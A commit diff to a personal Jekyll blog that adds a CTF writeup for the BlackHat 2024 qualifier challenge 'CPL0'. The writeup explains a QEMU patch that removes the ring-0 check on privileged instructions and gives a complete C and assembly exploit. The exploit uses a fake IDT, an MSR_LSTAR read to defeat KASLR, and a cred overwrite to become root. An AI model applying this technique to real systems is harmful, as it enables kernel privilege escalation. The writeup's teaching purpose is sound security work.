

Before and after one commit to stdnoerr/stdnoerr.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; grey boxes are pictures that could not be loaded.

Commit message:
BlackHat 2024 - CPL0

````diff
--- a/_posts/2021-09-28-HacktivityCTF2021 - pawn shop.md
+++ b/_posts/2021-09-28-HacktivityCTF2021 - pawn shop.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: HacktivityCTF 2021 pawn shop challenge writeup
+title: HacktivityCTF 2021 - Pawn Shop
 date: 2021-09-28 21:02
 category: writeup
 author: stdnoerr
--- /dev/null
+++ b/_posts/2023-11-26-BlackHat 2024 Quals - CPL0.md
@@ -0,0 +1,245 @@
+---
+layout: post
+title: BlackHat 2024 2024 Quals - CPL0
+date: 2023-11-26 00:00
+category: writeup
+author: stdnoerr
+tags: [kernel, qemu]
+summary: Write for CPL0 in BlackHat 2024 Qualifiers.
+---
+I played BlackHat 2024 Qualifiers with [AirOverflow](https://team.airoverflow.com/). I didn't get much time to play and only managed to solve CPL0.
+The challenge provided a qemu patch and docker container files. I assumed that it was a kernel challenge but it turned out to be very different. Here's how I solved it: -
+
+# Analysis
+## Patch file
+Here's the Qemu patch file: -
+```patch
+diff --git a/target/i386/tcg/translate.c b/target/i386/tcg/translate.c
+index 95bad55bf4..309e540957 100644
+--- a/target/i386/tcg/translate.c
++++ b/target/i386/tcg/translate.c
+@@ -233,7 +233,7 @@ typedef struct DisasContext {
+  */
+ #define STUB_HELPER(NAME, ...) \
+     static inline void gen_helper_##NAME(__VA_ARGS__) \
+-    { qemu_build_not_reached(); }
++    { /* qemu_build_not_reached(); */ }
+
+ #ifdef CONFIG_USER_ONLY
+ STUB_HELPER(clgi, TCGv_env env)
+@@ -1386,11 +1386,7 @@ static void gen_exception_gpf(DisasContext *s)
+ /* Check for cpl == 0; if not, raise #GP and return false. */
+ static bool check_cpl0(DisasContext *s)
+ {
+-    if (CPL(s) == 0) {
+-        return true;
+-    }
+-    gen_exception_gpf(s);
+-    return false;
++    return true;
+ }
+
+ /* XXX: add faster immediate case */
+```
+
+The patch file modifies a function and a macro. The macro is simply a wrapper for labeling unreachable regions in the code. Our interest lies in the function `check_cpl0`. Whatever the function was checking has been patched to always return true.
+
+## What is CPL?
+For those of you who don't know, Qemu is a CPU emulator. It helps translates instruction of one guest CPU type on another host CPU. Guest and host CPUs can be same. This helps develops test programs that handle low level stuff without having to debug everything on their physical CPU, which is an extremely frustrating task.
+
+If you track the `CPL` macro in qemu code, it shows up to be the following: -
+```c
+#define CPL(S)    ((S)->cpl)
+```
+Here `S` or `s` in the function is a pointer of type `struct DisasContext`. The `cpl` member of this struct has the following comment: -
+```c
+typedef struct DisasContext {
+    DisasContextBase base;
+
+    target_ulong pc;       /* pc = eip + cs_base */
+    target_ulong cs_base;  /* base of CS segment */
+    target_ulong pc_save;
+
+    MemOp aflag;
+    MemOp dflag;
+
+    int8_t override; /* -1 if no override, else R_CS, R_DS, etc */
+    uint8_t prefix;
+
+    bool has_modrm;
+    uint8_t modrm;
+
+#ifndef CONFIG_USER_ONLY
+    uint8_t cpl;   /* code priv level */
+    uint8_t iopl;  /* i/o priv level */
+#endif
+[truncated]
+```
+So now we know that `CPL` is actually `code privilege level`. But what does it mean?<br/>
+If you look it up in the Intel docs, you will find that code on x86 CPUs have a ring model of privileges. These privileges are also called code privileges. It has privilege levels for `0` to `3` (some details are avoided for brevity). `0` Privilege level is where the Kernel executes and `3` privilege level is what all user programs are assigned. This helps CPUs deny access to sensitive things to user programs and maintains privilege separation.
+
+The patch modified the CPL check such that whenever a privileged instruction is encountered in userspace code, it treats it as though it came from kernel code. Hence any user program can do kernel actions and execute privileged instructions.
+
+## What Privileged instructions are there?
+If you look up in the Intel's Software Developer Manual for privileged instructions, you will find the following section:
+```
+6.9 PRIVILEGED INSTRUCTIONS
+Some of the system instructions (called “privileged instructions”) are protected from use by application programs.
+The privileged instructions control system functions (such as the loading of system registers). They can be
+executed only when the CPL is 0 (most privileged). If one of these instructions is executed when the CPL is not 0,
+a general-protection exception (#GP) is generated. The following system instructions are privileged instructions:
+• LGDT — Load GDT register.
+• LLDT — Load LDT register.
+• LTR — Load task register.
+• LIDT — Load IDT register.
+• MOV (control registers) — Load and store control registers.
+• LMSW — Load machine status word.
+• CLTS — Clear task-switched flag in register CR0.
+• MOV (debug registers) — Load and store debug registers.
+• INVD — Invalidate cache, without writeback.
+• WBINVD — Invalidate cache, with writeback.
+• INVLPG — Invalidate TLB entry.
+• HLT— Halt processor.
+• RDMSR — Read Model-Specific Registers.
+• WRMSR — Write Model-Specific Registers.
+• RDPMC — Read Performance-Monitoring Counter.
+• RDTSC — Read Time-Stamp Counter.
+Some of the privileged instructions are available only in the more recent families of Intel 64 and IA-32 processors
+(see Section 24.13, “New Instructions In the Pentium and Later IA-32 Processors”).
+The PCE and TSD flags in register CR4 (bits 4 and 2, respectively) enable the RDPMC and RDTSC instructions,
+respectively, to be executed at any CPL.
+```
+
+This gives us a list of privileged instructions and their short descriptions.
+
+# Exploitation
+## What is the Objective?
+Since our code was executing as an unprivileged user, it was obvious that we had to escalate privileges. But we had to do it using some privileged instruction instead of exploiting the kernel.
+
+## Interrupt Descriptor Table
+I decided to overwrite the interrupt descriptor table using the `LIDT` instruction. The Interrupt Descriptor table holds entries for handling interrupts.
+Interrupts are the equivalent of "events" in an Operating System. A common interrupt is `int 0x80` that is used to serve syscalls in Linux.
+
+By overwriting IDT, we will control what code is executed when an interrupt is generated. As to why we want that is because whenever an interrupt is generated, the code privilege level is actually made `0`. We need this because we need to access MSRs (Model Specific Registers) and I wasn't able to access them using a user program.
+
+By searching for ways to escalate privileges when we have control of IDT revealed [this](https://rdomanski.github.io/Kernel-IDT-priviledge-escalation/) and [this](https://hxp.io/blog/99/hxp-CTF-2022-one_byte-writeup/) writeup.
+
+The first writeup explains the IDT entry structure in detail and the second one provides details on how to escalate privileges when you can execute code in CPL0.
+
+## Exploit
+I first made C structs for IDT and IDT entry, then I first read the IDT using `SIDT` to later recover the IDT to a stable state, made a fake IDT that will redirect all interrupts to my handle, and performed an interrupt to execute the handler. The handler does privilege escalation based on hxp writeup.<br/>
+The privilege escalation is done by overwriting the `struct cred` of the current process with `init_task`. The struct is located by access `current` (in linux kernel language) that is acquired by reading the `gs` segment register. To access the kernel `gs`, `swapgs` is executed and `init_task` is located by getting a kernel leak via reading `MSR_LSTAR` which holds the handler for `syscall` and `sysenter` instructions. `cli` and `sti` are used to disable and enable interrupts respectively and `LIDT` is used to fix IDT so the program doesn't crash after returning. To return `iretq` is used because we are in an interrupt context.
+
+### Final exploit
+```c
+#include <fcntl.h>
+#include <stdio.h>
+#include <stdint.h>
+#include <stdlib.h>
+#include <sys/mman.h>
+
+#define INTERRUPT_SS 0x0010
+#define INTERRUPT_FLAGS 0xee00
+#define TOTAL_INTERRUPTS 0x100
+
+struct IDT {
+	uint16_t limit;
+	uint64_t addr;
+} __attribute__((packed));
+
+typedef struct {
+    uint16_t loword;
+    uint16_t ss;
+    uint16_t flags;
+    uint16_t hiword;
+    uint32_t hidword;
+    uint32_t reserved;
+} __attribute__((packed)) IDTEntry;
+
+void interrupt_handler(void);
+struct IDT fake_idt = {}, original_idt = {};
+
+int create_fake_idt(struct IDT* out_idt, void * handler){
+    IDTEntry *idt = mmap(NULL, sizeof(IDTEntry) * TOTAL_INTERRUPTS, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0);
+
+    if (idt == MAP_FAILED)
+        return -1;
+
+    IDTEntry entry = {
+        .flags = INTERRUPT_FLAGS,
+        .ss = INTERRUPT_SS,
+        .hidword = (uint64_t) handler >> 32,
+        .hiword = ((uint64_t) handler & 0xffff0000) >> 16,
+        .loword = (uint64_t) handler & 0xffff};
+
+    for (int i = 0; i < TOTAL_INTERRUPTS; i++){
+        idt[i] = entry;
+    }
+
+    out_idt->addr = idt;
+    out_idt->limit = sizeof(IDTEntry) * TOTAL_INTERRUPTS - 1;
+
+    return 0;
+}
+
+int main(){
+    asm volatile("sidt %0" : "=m" (original_idt));
+
+    if (create_fake_idt(&fake_idt, interrupt_handler) < 0){
+        fprintf(stderr, "Error creating fake IDT\n");
+    }
+
+    asm volatile ("lidt %0" : "=m" (fake_idt));
+    asm volatile ("int 0");
+
+    system("id; cat /root/flag.txt");
+
+    return 0;
+}
+```
+```asm
+#include <linux/mman.h>
+#include <sys/syscall.h>
+
+#define MSR_LSTAR 0xc0000082
+#define KASLR_LSTAR 0x800080
+#define KASLR_INIT_TASK 0xe0a580
+#define PERCPU_CURRENT 0x21440
+#define STRUCT_TASK_STRUCT_REAL_CRED 0x5b0
+#define STRUCT_TASK_STRUCT_CRED 0x5b8
+#define STRUCT_CRED_USAGE 0x0
+
+.global interrupt_handler
+
+interrupt_handler:
+    // Disable interrupts (interrupts cause double faults right now)
+    cli
+
+    // Read LSTAR to bypass KASLR
+    movl $MSR_LSTAR,  %ecx
+    rdmsr
+    shlq $32, %rdx
+    orq %rax, %rdx
+    subq $KASLR_LSTAR, %rdx
+
+    // Get access to per-cpu variables (current, mostly) via swapgs
+    swapgs
+
+    // Set current->cred and current->real_cred to init_task->cred
+    addq $KASLR_INIT_TASK, %rdx
+    movq STRUCT_TASK_STRUCT_CRED(%rdx), %rdx
+    addl $2, STRUCT_CRED_USAGE(%rdx)
+    movq %gs:PERCPU_CURRENT, %rax
+    movq %rdx, STRUCT_TASK_STRUCT_CRED(%rax)
+    movq %rdx, STRUCT_TASK_STRUCT_REAL_CRED(%rax)
+
+    // Swap back
+    swapgs
+
+    // Fix IDT
+    lidt original_idt
+
+    // Enable interrupts
+    sti
+    iretq
+```
````
Also changed, not shown: Gemfile.lock, 13 other files.
